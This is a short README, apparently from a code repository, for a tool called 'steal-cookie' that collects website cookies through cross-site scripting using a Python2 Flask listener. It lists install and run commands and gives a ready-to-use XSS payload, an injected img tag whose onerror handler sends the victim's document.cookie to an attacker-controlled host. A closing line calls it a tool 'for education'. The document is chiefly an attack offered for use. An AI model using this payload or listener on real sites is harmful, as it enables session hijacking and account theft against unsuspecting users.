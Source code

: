 # steal-cookie
steal cookies from websites using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :


  <h4>enter the cookie in this url </h4>
 

````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :
- Facebook : <a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Khaled Nassar </h3></a>

